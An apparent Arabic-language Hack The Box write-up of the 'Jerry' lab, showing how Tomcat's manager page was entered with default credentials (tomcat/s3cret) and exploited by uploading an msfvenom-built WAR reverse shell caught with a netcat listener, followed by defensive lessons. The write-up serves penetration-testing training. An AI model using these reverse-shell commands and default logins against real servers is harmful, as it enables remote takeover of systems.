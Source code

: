 ```yaml
---

title: "HTB Jerry Lab - Arabic Hack The Box Report"
date: 2025-07-28
author: <author_id>
layout: post
categories: Hack_The_Box
tags: [HTB_Repo, Web, Bug_Bounty, File_Upload_Attack ,web_pentest]
direction: rtl
image:
  path: /images/Labs/jerry/1.png
  alt: 
description: 
-----

# 1️⃣ HTB Jerry Lab - Arabic Hack The Box Report

---
```

## 📍 Basic Information
- *Category:* Web
- *Difficulty:* Easy
- *HTB Link:* [HTB Academy – Jerry ](https://app.hackthebox.com/machines/Jerry)
- *Date Completed:* 2025-07-28

---

## 🔍 1. Recon & Enumeration

### 🌐 Target Information
- *IP:* 10.10.10.95
- *Ports:* 8080 (HTTP)
- *Service:* Apache Tomcat
- *Technology Identified:* Apache Tomcat
- *OS Guessing:* Windows

### 📄 Files / Endpoints Discovered
- /docs
- /manager/html
- /examples

### 🧪 Tools Used
- `nmap`, `ffuf`, `msfvenom` 

----

## 🎯 2. Vulnerability Identification

### ✅ Vulnerability Type(s)
- [x] File Upload Attack
- [x] Weak Credential 

### 🧠 Explanation  
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">
اثناء فحص ال Directories وجدت صفحة تسجيل دخول manager/html وهي عبارة عن صفحة تسجيل دخول، قمت بالتسجيل بال username وال password الافتراضيين ل Tomcat، وبالفعل استطعت تسجيل الدخول.
</p>
![[Pasted image 20250728212622.png]]
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">
لاحظت بصفحة ال manager وجود مكان لرفع ملف Web Application Resource (WAR) وهو ملف يحتوي على الملفات المبنية ب Java الضرورية لعمل الموقع.

السماح برفع ملفات WAR وتمكين المستخدم من تشغيلها بدون تحقق من التوثيق يمثل خلل أمني يسمح بتنفيذ أوامر عن بعد RCE، وهذا يُصنف كـ Remote Code Execution.
</p>

---

## 🚀 3. Exploitation

### 🔧 Payload Used
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

بعد بحث خفيف على Google وجدت ان ممكن انشأ ال payload باستخدام msvenom : 
</p>

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.93 LPORT=9002 -f war > rev_shell.war
```
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

وطبعاً لازم شغل Listener عندي باستخدام Netcat:
</p>

```shell
nc -lnvp 9002
```


---
### 🎯 Result / Effect
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

بعد ما جهزت ال Listener وانشأت ال Payload، برفعه على الصفحة، بس ما رح يصير شي عندي لانه صح انرفع بس ما تم تفعيله، لهيك لازم اضغط على رابط ال Payload يلي تم انشائه:
</p>

![[2.webp]]

---

## 📎 4. Proof of Concept (PoC)

### 💬 Steps to Reproduce:
<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

1. افتح 8080:[Your_IP] وسجل الدخول بـ:
    
2. بعد الدخول، انتقل مباشرة إلى /manager/html
    - username: tomcat
        
    - password: s3cret
        
    
3. لاحظ ممكن رفع ملف war.
    
4. انشأ payload Java وقم برفعه ثم تشغيله.
    
</p>

### 🖼 Screenshot 

![[3.webp]]

![[4.webp]]

---

## 📊 5. Impact & Risk

<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

- *OWASP Category:* A08:2021 - Software and Data Integrity Failures , A05:2021 - Security Misconfiguration
    
- *CVSS Score:* 9.0 (Critical)
    
- *Impact:*  
    يسمح للمستخدمين غير المصرح لهم بالوصول إلى صلاحية ال Administrator
    
</p>


---

## 🗒 7. Lessons Learned

<p dir="rtl" style=" font-size: 22px; line-height: 1.6;">

- ضرورة تعطيل واجهات الإدارة (manager/html) أو تقييدها عبر جدار ناري داخلي.
    
- تقييد رفع ملفات WAR لمديرين موثوقين فقط.
    
- فحص ملفات WAR باستخدام AV و sandbox قبل النشر.

</p>    

---

## 🔗 References

- [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136)
    
- [OWASP A08 – Software and Data Integrity Failuresl](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
    
- [OWASP A05 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
    

---

## *tags:*

#HTB_Repo , #Web , #Bug_Bounty , #File_Upload_Attack ,#web_pentest